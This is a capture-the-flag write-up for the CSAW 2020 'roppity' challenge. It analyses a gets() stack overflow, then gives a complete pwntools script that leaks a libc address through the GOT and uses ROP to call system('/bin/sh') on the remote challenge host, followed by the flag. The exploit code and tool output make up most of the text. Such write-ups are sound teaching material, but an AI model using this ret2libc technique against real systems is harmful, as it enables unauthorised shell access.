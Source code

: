 # roppity

*pwn, 50*

`Welcome to pwn! nc pwn.chal.csaw.io 5016`

## initial review

```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char local_28 [32];
  
  init(param_1);
  puts("Hello");
                    /* Smashes stack using local_28@0x004005dc (+0,1,40) */
  gets(local_28);
  return 0;
}
```

```text
❯ checksec rop
[*] '/home/sky/csaw-2020/roppity/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```text
❯ r2 rop
 -- The door is everything ...
[0x004004d0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x004004d0]> afl
0x004004d0    1 42           entry0
0x00400510    4 42   -> 37   sym.deregister_tm_clones
0x00400540    4 58   -> 55   sym.register_tm_clones
0x00400580    3 34   -> 29   sym.__do_global_dtors_aux
0x004005b0    1 7            entry.init0
0x00400690    1 2            sym.__libc_csu_fini
0x00400694    1 9            sym._fini
0x004005b7    1 37           sym.init
0x004004c0    1 6            sym.imp.setvbuf
0x00400620    4 101          sym.__libc_csu_init
0x00400500    1 2            sym._dl_relocate_static_pie
0x004005dc    1 54           main
0x004004a0    1 6            sym.imp.puts
0x004004b0    1 6            sym.imp.gets
0x00400478    3 23           sym._init
```

To sum it up -- the binary has an unbounded buffer overflow courtesy of `gets` and we don't have any convenient functions to print out the flag.  We're provided a libc binary (2.27) so high probability that'll be relevant.  

## how do we exploit this?

Given the situation (can overwrite saved return pointer, no provided function to print flag, known libc) we will probably be doing a [return-to-libc](https://en.wikipedia.org/wiki/Return-to-libc_attack) attack.  The plan then is:

1. figure out libc location in memory
2. use that address to determine the address of `"/bin/sh"` and `system` in memory
3. use ROP to call system("/bin/sh")
4. get the flag!  

How can we leak the libc address?  Well, if we know a location in the binary that points to a fixed point in libc we can leak that address and calculate the libc base off of that.  Coincidentally, we do known a location in the binary that points to a fixed location in libc -- the GOT!  By leaking the address of `__libc_start_main` in the program memory, calculating the distance of `__libc_start_main` from the base of libc 2.27, and then subtracting the latter from the former we can determine the location of libc in memory.  After this we just return back into the main function and use our new knowledge of the libc address to ROP system("/bin/sh")

## solution

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./rop")
ld = ELF("./ld-2.27.so")
rop = ROP(elf)

context.binary = elf


def conn():
    if args.LOCAL_32:
        libc = ELF("/usr/lib/libc.so.6")
        return (libc, elf.process())
    elif args.LOCAL:
        libc = ELF("./libc-2.27.so")
        return (libc, process([ld.path, elf.path], env={"LD_PRELOAD": libc.path}))
    else:
        libc = ELF("./libc-2.27.so")
        return (libc, remote("pwn.chal.csaw.io",5016))


def main():
    (libc, p) = conn()
    offset = 40


    pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]

    payload = offset * b"A" + p64(pop_rdi) + p64(elf.symbols['__libc_start_main']) + p64(elf.plt['puts']) + p64(elf.symbols['main'])

    p.recv(6) # read hello\n

    p.sendline(payload)

    libc_start_address = int.from_bytes(p.recv(7).rstrip(), byteorder="little")

    libc.address = libc_start_address - libc.sym["__libc_start_main"]
    print("Address of libc %s " % hex(libc.address))

    binsh = next(libc.search(b"/bin/sh"))
    system = libc.symbols["system"]
    print("/bin/sh = ",hex(binsh))
    print("system = ", hex(system))

    payload = offset * b"A" + p64(pop_rdi) + p64(binsh) + p64(system) + p64(pop_rdi) + p64(binsh) + p64(system) # i uh need to do this twice idk why pls dont ask me
    open("payload.txt","wb").write(payload)
    p.sendline(payload)
    p.interactive()


if __name__ == "__main__":
    main()
```

flag: `flag{r0p_4ft3r_r0p_4ft3R_r0p}`
